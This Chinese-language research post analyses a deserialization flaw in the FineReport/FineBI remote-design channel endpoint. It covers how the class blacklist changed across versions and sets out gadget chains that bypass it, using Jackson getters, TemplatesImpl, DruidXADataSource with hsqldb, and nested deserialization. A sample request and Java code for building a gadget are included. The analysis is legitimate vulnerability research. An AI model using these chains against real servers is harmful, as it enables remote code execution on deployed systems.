## 0x00 TL;DR

手头是官方默认安装的 jar，不是现场包。入口还是那条远程设计：

```HTTP
POST /webroot/decision/remote/design/channel HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 Chrome/124.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/octet-stream
Content-Length: 31

1f8b08000000000000005bf39681b58481a524b5b804002ee2800e0b000000
```

之前遇到过这个问题，并且是通过动态测试成功挖到了一条可用的 gadget，[被当成Shiro的FineReport反序列化](https://baozongwi.xyz/p/finereport-10-channel-deserialization/) 最近看了@yulate https://www.yulate.com/post/suctf2025-chu-ti-ji-lu/#su_ez_micronaut 感觉这种特殊的反序列化方式，自己去挖掘gadget的产品挺有意思，让grok找了一圈开源产品，最终还是弯弯绕绕的回来了，帆软😂

依赖官方 jar，反序列化调用的是产品自带类，JDK 8u201。

## 0x01 可挖掘版本

FineBI 5.1.5 persist-2021.01.23、FineBI 6.1.8（2025-10-21）、FineReport 10 2026-04、FineReport 11.5.13 / FineBI 6 11.5.12.1。

FR11 2022-04 只有当年 `fine-core`，公开源里没有那一年的 `fine-third`，所以没挖，具体参考这位师傅文章 https://xz.aliyun.com/t/13389

FineReport 8/9、FineBI 4、FDL 没有这个功能，FineBI 7 没有公开 jar。信创 JDK、Windows 实机环境问题也没看。

## 0x02 channel 反序列化

### 反序列化入口

路由在 `RemoteDesignResource`。类上是 `/remote/design`，方法上是 `/channel`：

```java
@Controller
@RequestMapping(value={"/remote/design"})
public class RemoteDesignResource {
    @RequestMapping(value={"/channel"}, method={RequestMethod.POST})
    @ResponseBody
    public void onMessage(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse) throws Exception {
        RemoteDesignService.getInstance().onMessage(httpServletRequest, httpServletResponse);
    }
}
```

`RemoteDesignService.onMessage` 把 body 读成 `byte[]`，丢给 `WorkContext.handleMessage`。服务端实现是 `WorkspaceServerInvoker`。反序列化失败也会把结果 gzip 回去，HTTP 经常还是 200

```java
public byte[] handleMessage(byte[] byArray) {
    FineResult fineResult = new FineResult();
    try {
        Invocation invocation = null;
        try {
            invocation = this.deserializeInvocation(byArray, fineResult);
        } catch (Exception exception) {
            return this.serializeResult(fineResult);
        }
        ...
        return this.serializeResult(fineResult);
    } catch (Throwable throwable) {
        return new byte[0];
    }
}

private Invocation deserializeInvocation(byte[] byArray, FineResult fineResult) throws Exception {
    try {
        return SerializerHelper.deserialize(byArray, GZipSerializerWrapper.wrap(InvocationSerializer.getDefault()));
    } catch (Exception exception) {
        fineResult.setResult(null);
        fineResult.setException(exception);
        throw exception;
    }
}
```

上面这段是 FineBI 5.1.5 persist-2021.01.23 的 `fine-core`，就是直接进行反序列化。6.1.8 / FR10 2026 / FR 11.5.13 换成 `SafeInvocationSerializer`，别的一样。

外层是 gzip：

```java
public class GZipSerializerWrapper<T> implements Serializer<T> {
    public T deserialize(InputStream inputStream) throws Exception {
        GZIPInputStream gZIPInputStream = new GZIPInputStream(inputStream);
        return this.serializer.deserialize(gZIPInputStream);
    }
}
```

`GZIPInputStream` 构造时就要读 gzip 头，body 不是 gzip，这里就 `IOException`，也就不会进行反序列化了。

解压之后进 `InvocationSerializer.deserialize`。2021 这套是直接 new 一个自定义的 `customObjectInputStream`

```java
public Invocation deserialize(InputStream inputStream) throws Exception {
    JDKSerializer.CustomObjectInputStream customObjectInputStream =
        new JDKSerializer.CustomObjectInputStream(inputStream);
    InvocationPack invocationPack = (InvocationPack) customObjectInputStream.readObject();
    Map map = (Map) customObjectInputStream.readObject();
    Invocation invocation = invocationPack.toInvocation(this.readParams(invocationPack.params));
    invocation.getMetadata().putAll(map);
    return invocation;
}
```

这里有两次`readObject`方法触发，但是不影响，在反序列化的时候会做一个强转抛出错误。

`CustomObjectInputStream` 是帆软写在 `JDKSerializer` 里面的内部类，继承 `java.io.ObjectInputStream`，只重写了加载类名这一步。2021 这套完整如下：

```java
public static class CustomObjectInputStream extends ObjectInputStream {
    public CustomObjectInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
    }

    @Override
    protected Class<?> resolveClass(ObjectStreamClass objectStreamClass) throws ClassNotFoundException {
        try {
            return super.resolveClass(objectStreamClass);
        } catch (Exception exception) {
            return ClassFactory.getInstance().classForName(objectStreamClass.getName());
        }
    }
}
```

没有黑名单，`resolveClass` 先按 JDK 自己的办法加载这个类名，如果没加载出来这个类就会返回 `ClassFactory`。



而这里就是最普通的反射。

6.1.8 之后父类改了一手。`deserialize` 不再写死 `new CustomObjectInputStream`，改成调 `generateObjectInputStream`

```java
public Invocation deserialize(InputStream inputStream) throws Exception {
    ObjectInputStream in = this.generateObjectInputStream(inputStream);
    InvocationPack pack = (InvocationPack) in.readObject();
    Map map = (Map) in.readObject();
    ...
}

protected ObjectInputStream generateObjectInputStream(InputStream in) throws IOException {
    return new ObjectInputStream(in);
}
```

父类这里是普通 `ObjectInputStream`，不读黑名单，但是远程设计实际用的是子类 `SafeInvocationSerializer`

```java
public class SafeInvocationSerializer extends InvocationSerializer {
    protected ObjectInputStream generateObjectInputStream(InputStream in) throws IOException {
        return new JDKSerializer.CustomObjectInputStream(in);
    }
}
```

带黑名单的 `CustomObjectInputStream` 完整如下（FR11 起，11.5.13 同一段）：

```java
public static class CustomObjectInputStream extends ObjectInputStream {
    private static final Set<String> BLACK_SET = new HashSet<String>();

    public CustomObjectInputStream(InputStream inputStream) throws IOException {
        super(inputStream);
    }

    @Override
    protected Class<?> resolveClass(ObjectStreamClass objectStreamClass)
            throws ClassNotFoundException, InvalidClassException {
        if (BLACK_SET.contains(objectStreamClass.getName())) {
            FineLoggerFactory.getLogger().error("{} hit blacklist", new Object[]{objectStreamClass.getName()});
            throw new InvalidClassException(objectStreamClass.getName(), "Unsafe class blocked from deserialization");
        }
        try {
            return super.resolveClass(objectStreamClass);
        } catch (Exception exception) {
            return ClassFactory.getInstance().classForName(objectStreamClass.getName());
        }
    }

    static {
        try (InputStream inputStream = CustomObjectInputStream.class.getResourceAsStream("/com/fr/serialization/blacklist.txt");
             BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(inputStream))) {
            String string;
            while ((string = bufferedReader.readLine()) != null) {
                BLACK_SET.add(string);
            }
        } catch (Exception exception) {
            FineLoggerFactory.getLogger().info("Read black list failed: {}", new Object[]{exception.getMessage()});
        }
    }
}
```

静态块从 classpath 读 `/com/fr/serialization/blacklist.txt`，一行一个完整类名，塞进 `HashSet`，`resolveClass` 里 `contains` 命中就 `InvalidClassException`。
比的是完整类名，大小写敏感，不支持前缀。



```
RemoteDesignResource.onMessage
  RemoteDesignService.onMessage
    WorkContext.handleMessage
      WorkspaceServerInvoker.handleMessage
        GZipSerializerWrapper.deserialize
          InvocationSerializer / SafeInvocationSerializer.deserialize
            CustomObjectInputStream.readObject   // 第一次
            CustomObjectInputStream.readObject   // 第二次，Map
```

11.5 的 `onMessage` 会先读 header 里的 token 但这篇不分析鉴权，不过我估计也是无法绕过的😅

### 黑名单更迭

2021 年那时还没有黑名单。

2022-08 第一份 144 行，按 ysoserial 开始点名，黑名单十二卷，卷卷有爷名～，`PriorityQueue`、`BeanComparato`、`JdbcRowSetImpl`、`InvokerTransformer`、`Comparator`。

但是`BadAttributeValueExpException`、`POJONode`、`SignedObject`、`JSONArray` 都不在名单里。参考这篇文章 [xz Finebi反序列化](https://xz.aliyun.com/t/13389)，用 BadAttributeValueExpException触发 toString 即可。

2023-07  `POJONode` 进黑名单，上面这条第一次 `readObject` 就会 `InvalidClassException`，用产品自己的 `JSONArray.toString` 同样会进 `writeValueAsString`。

后来 `java.security.SignedObject`进黑名单，连接池改成默认就有的 `DruidXADataSource.getXAConnection`，URL 用自带 hsqldb，再配合`SerializationHelper.deserialize`再次实现二次反序列化。

2024-05 文档建议把 `JSONArray`、`TextAndMnemonicHashMap`、`DruidXADataSource` 加进名单，是建议；实际并没有禁用😆估计官方懒得管了，大多数用户都会加入 RASP 来进行防护吧。

24/25 [红细胞那篇 ](https://mp.weixin.qq.com/s/9PxsM62-Jcgv9eMldli9fA?poc_token=HLyor2qjFrbTLqnN2XcbCkUrZiiN6Tpb5IQLmtyU)还在用 `JSONArray`， `ImmutableSetMultimap` + `UsingToStringOrdering`来触发 toString，FineBI 6.1.8 已经禁 `ImmutableSetMultimap`，`UsingToStringOrdering` 仍允许。

2026-07 的 698 行把 `com.fr.third.guava.collect.UsingToStringOrdering` 写进去，但是`ByFunctionOrdering` 仍允许。

### gadget 挖掘

一开始黑名单里面没有 SignedObject，所以只需要挖掘一个类，能够从 `readObject()` 触发 `toString()`然后触发`SignedObject.getObject`，后来 SignedObject 进了黑名单，但是依然能够触发`JSONArray.toString` 再到 `DruidXADataSource.getXAConnection`

所以其实就是找能够从 `readObject()` 触发 `toString()`，最终触发 getter 的方法即可。

空名单，用 CB 链最后打h2 jdbc

```
PriorityQueue.readObject
  BeanComparator.compare
    JdbcRowSetImpl.getDatabaseMetaData
      H2 INIT
```

FineBI 5.1.5 persist-2021.01.23 没有 `BeanComparator.class`，有 `h2-1.4.192.jar`。公开文里的 H2 `CREATE ALIAS` 贴 Java 会撞 Hibernate 注解处理器。这包 H2 是 1.4.192，还没有后来的 `//javascript` trigger，也就不用再用h2 RCE，空名单，jackson 可以直接调 `TemplatesImpl.getOutputProperties`。

```
Hashtable.readObject
  reconstitutionPut
    AbstractMap.equals
      TreeMap.get
        UsingToStringOrdering.compare
          JSONArray.toString
            jackson writeValueAsString
              TemplatesImpl.getOutputProperties
                defineClass / newInstance / <clinit>
```

144 禁了 CB，`POJONode` / `SignedObject` 还允许。公开链用的 Jackson 二次反序列化的链

```
BadAttributeValueExpException.readObject
  val.toString()
    POJONode / BaseJsonNode.toString
      jackson writeValueAsString
        SignedObject.getObject
          inner CB
```

`SignedObject` 进名单之后（6.1.8 / FR10 2026 / 11.5.13），默认也没 H2。hsqldb `CALL` 只认 `public static`。在 `fine-third`发现了`SerializationHelper.deserialize(byte[])`，虽然 665/675/698 在黑名单中，但是`CALL` 是反射，不走 `resolveClass`。

这个方法的完整代码进行很多的方法重载，很多同名方法，选择出我们需要用到的方法看看

```java
public static Object deserialize(byte[] objectData) throws SerializationException {
    return doDeserialize(wrap(objectData), defaultClassLoader(), hibernateClassLoader(), null);
}

private static InputStream wrap(byte[] objectData) {
    if (objectData == null) {
        throw new IllegalArgumentException("The byte[] must not be null");
    }
    return new ByteArrayInputStream(objectData);
}

public static <T> T doDeserialize(InputStream inputStream, ClassLoader loader,
        ClassLoader fallbackLoader1, ClassLoader fallbackLoader2) throws SerializationException {
    if (inputStream == null) {
        throw new IllegalArgumentException("The InputStream must not be null");
    }
    try {
        CustomObjectInputStream in = new CustomObjectInputStream(
                inputStream, loader, fallbackLoader1, fallbackLoader2);
        try {
            return (T) in.readObject();
        } finally {
            in.close();
        }
    } catch (ClassNotFoundException e) {
        throw new SerializationException("could not deserialize", e);
    } catch (IOException e) {
        throw new SerializationException("could not deserialize", e);
    }
}
 
private static final class CustomObjectInputStream extends ObjectInputStream {
    private final ClassLoader loader1;
    private final ClassLoader loader2;
    private final ClassLoader loader3;
 
    private CustomObjectInputStream(InputStream in, ClassLoader loader1,
            ClassLoader loader2, ClassLoader loader3) throws IOException {
        super(in);
        this.loader1 = loader1;
        this.loader2 = loader2;
        this.loader3 = loader3;
    }
 
    protected Class resolveClass(ObjectStreamClass v) throws IOException, ClassNotFoundException {
        String className = v.getName();
        try {
            return Class.forName(className, false, this.loader1);
        } catch (ClassNotFoundException e) {
            if (different(this.loader1, this.loader2)) {
                try {
                    return Class.forName(className, false, this.loader2);
                } catch (ClassNotFoundException e2) {
                }
            }
            if (different(this.loader1, this.loader3) && different(this.loader2, this.loader3)) {
                try {
                    return Class.forName(className, false, this.loader3);
                } catch (ClassNotFoundException e3) {
                }
            }
            return super.resolveClass(v);
        }
    }
 
    private boolean different(ClassLoader one, ClassLoader other) {
        if (one == null) {
            return other != null;
        }
        return !one.equals(other);
    }
}
```

可以看到和 SignedObject 一样，将传入的 `byte[]` 参数重新进行 `readObject()`，可以作为二次反序列化的类，内层打 jackson 链。

`JSONArray.toString` 进 jackson，会到 encode 方法，Jackson 在执行 `writeValueAsString` 时，为了把 `this.list` 里的 Java 对象转成 JSON，list 里的对象会被调 getter

```java
public String toString() {
    return this.encode();
}
public String encode() {
    return EmbedJson.encode(this.list);
}
public static String encode(Object obj) throws EncodeException {
    try {
        return MAPPER.writeValueAsString(obj);
    } catch (Exception e) {
        throw new EncodeException("Failed to encode as JSON: " + e.getMessage());
    }
}
```

`add(Object)` 会先 `checkAndCopy`，但是`DruidXADataSource` / `TemplatesImpl` 不属于 Number、String、JSONObject 这些，就会走到最后的 `val.toString()`，list 里只剩字符串，jackson 就无法触发 getter，

```java
public JSONArray add(Object value) {
    AssistUtils.requireNonNull(value);
    value = EmbedJson.checkAndCopy(value, false);
    this.list.add(value);
    return this;
}

public static Object checkAndCopy(Object val, boolean copy) {
    if (val != null && (!(val instanceof Number) || !EmbedJsonUtils.isValidity(val) || val instanceof BigDecimal || val instanceof BigInteger) && !(val instanceof Boolean) && !(val instanceof String) && !(val instanceof Character) && !(val instanceof Date)) {
        if (val instanceof CharSequence) {
            val = val.toString();
        } else if (val instanceof JSONObject) {
            if (copy) {
                val = ((JSONObject)val).copy();
            }
        } else if (val instanceof JSONArray) {
            if (copy) {
                val = ((JSONArray)val).copy();
            }
        } else if (!(val instanceof JSONString) && !(val instanceof Primitive)) {
            if (val instanceof Map) {
                val = copy ? (new JSONObject((Map)val)).copy() : new JSONObject((Map)val);
            } else if (val instanceof List) {
                val = copy ? (new JSONArray((List)val)).copy() : new JSONArray((List)val);
            } else if (val instanceof byte[]) {
                val = Base64.encodeBase64((byte[])val);
            } else if (!(val instanceof JSONOriginal)) {
                if (val.getClass().isArray()) {
                    val = new JSONArray(val);
                } else {
                    val = val.toString();
                }
            }
        }
    }
    return val;
}
```

解决的方法也很简单，`new JSONArray(list)` 会直接把 ArrayList 赋给 `this.list`，不经过 `checkAndCopy`

```java
public JSONArray(List list) {
    this.list = list;
}
```

触发 toString 我们用 Hashtable 和 TreeMap 触发 compare ps: 我其实还没跟过 TreeMap 的调用过程，这里截图大致看看





因为`HashMap` 和 `TreeMap` 都没有重写`equals()` 方法，所以当对这两个 Map 调用 `equals()` 时，执行的全都是其抽象父类 `AbstractMap.equals()` 






实际在 poc 中构造如下

```java
static Object table(Comparator ord, Object inner) throws Exception {
    ArrayList list = new ArrayList();
    list.add(inner);
    JSONArray key = new JSONArray(list);
    TreeMap m1 = new TreeMap(nop());
    TreeMap m2 = new TreeMap(nop());
    m1.put(key, "x");
    m2.put(key, "y");
    Hashtable ht = new Hashtable();
    ht.put(m1, Integer.valueOf(1));
    ht.put(m2, Integer.valueOf(2));
    m1.put(key, null);
    m2.put(key, null);
    setField(m1, "comparator", ord);
    setField(m2, "comparator", ord);
    return ht;
}
```

2021 / 6.1.8 / FR10 比较器是 `Ordering.usingToString()`，类型 `UsingToStringOrdering`：

```java
public int compare(Object left, Object right) {
    return left.toString().compareTo(right.toString());
}
```

698 把 `com.fr.third.guava.collect.UsingToStringOrdering` 写进名单了，11.5.13 换成：

```java
Ordering.natural().onResultOf(Functions.toStringFunction())
```

实际类型是 `ByFunctionOrdering`，`function` 是 `Functions.ToStringFunction`

